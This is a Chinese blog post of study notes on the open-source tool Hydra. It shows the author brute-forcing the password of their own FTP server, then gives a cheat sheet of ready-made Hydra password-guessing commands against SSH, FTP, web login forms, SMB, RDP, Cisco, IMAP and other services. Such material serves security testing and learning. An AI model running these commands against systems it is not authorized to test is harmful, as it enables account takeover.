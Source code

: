 ```yaml
---
layout: post
title: "使用Hydra进行FTP口令暴力破解"
date: 2017-11-17 10:08:09 -0800
categories: 学习笔记
tags: Hydra 信息安全
---
```


测试过程中需要用到口令暴力破解的工具，网上一搜，果然Hydra在名头、支持的协议、速度方面都是业内领先，而且是开源的免费软件，那么果然还是要拿来用用。

本文将教你从安装Hydra到对FTP服务器进行暴力破解的全过程。

---

<h3>1 安装Hydra</h3>

不得不再次说，Ubuntu真~~TM~~是一个好东西，安装Hydra你需要做的只有一句话：

apt-get install hydra

是的，你没有看错，不需要添加任何其他的支持库，不要1999，也不要998，Ubuntu会自动帮你选择安装需要的库。

![install-hydra.png](/images/install-hydra.png)

---

<h3>2 使用Hydra对FTP服务器进行暴力破解</h3>

首先，你需要有一个密码字典文件（这个网上下载吧），文本文档就行，每一行是一个需要尝试的密码。

然后就可以开工了

![hydra-ftp-command.png](/images/hydra-ftp-command.png)

简要解释下就是对192.168.20.229的FTP服务器的user用户进行暴力破解，详细的解释会贴在最后。

我在FTP服务器设的密码是1qaz2wsx，网上随便下了一个包含300W条弱口令的字典，跑了不到15秒，就已经破解成功了。

![ftp-get-password.png](/images/ftp-get-password.png)

在FTP服务器端也能看到相应的尝试记录。

![ftp-login-success.png](/images/ftp-login-success.png)

Hydra默认是16线程同时跑的，所以一条线程破解成功后好像还要等其他线程跑完当前任务才会停止，所以看起来破解成功后还是继续尝试了几组口令。

---

<h3>3 Hydra详细的介绍</h3>

以下内容基本是从网上贴过来的，供参考：

hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]

-R 继续从上一次进度接着破解。

-S 采用SSL链接。

-s PORT 可通过这个参数指定非默认端口。

-l LOGIN 指定破解的用户，对特定用户破解。

-L FILE 指定用户名字典。

-p PASS 小写，指定密码破解，少用，一般是采用密码字典。

-P FILE 大写，指定密码字典。

-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。

-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。

-M FILE 指定目标列表文件一行一条。

-o FILE 指定结果输出文件。

-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。

-t TASKS 同时运行的线程数，默认为16。

-w TIME 设置最大超时的时间，单位秒，默认是30s。

-v / -V 显示详细过程。

server 目标ip

service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。

OPT 可选项


1、破解ssh：

{% highlight %}
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh
{% endhighlight %}


2、破解ftp：

{% highlight %}
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV
{% endhighlight %}

3、get方式提交，破解web登录：

{% highlight %}
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
{% endhighlight %}

4、post方式提交，破解web登录：

{% highlight %}
hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"
{% endhighlight %}

（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）

5、破解https：

{% highlight %}
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https
{% endhighlight %}

6、破解teamspeak：

{% highlight %}
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak
{% endhighlight %}

7、破解cisco：

{% highlight %}
hydra -P pass.txt 10.36.16.18 cisco
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
{% endhighlight %}

8、破解smb：

{% highlight %}
hydra -l administrator -P pass.txt 10.36.16.18 smb
{% endhighlight %}

9、破解pop3：

{% highlight %}
hydra -l muts -P pass.txt my.pop3.mail pop3
{% endhighlight %}

10、破解rdp：

{% highlight %}
hydra ip rdp -l administrator -P pass.txt -V
{% endhighlight %}

11、破解http-proxy：

{% highlight %}
hydra -l admin -P pass.txt http-proxy://10.36.16.18
{% endhighlight %}

12、破解imap：

{% highlight %}
hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
{% endhighlight %}

---

>PS
>1.hydra是开源软件，如果比较熟悉编译安装，可以自己下载源码安装，不过作为一个小白，我表示我不会。。。
>2.密码字典还是很重要的，暴力破解我个人认为主要还是破解弱口令有用，口令设复杂点想要暴力破解时间上也不允许。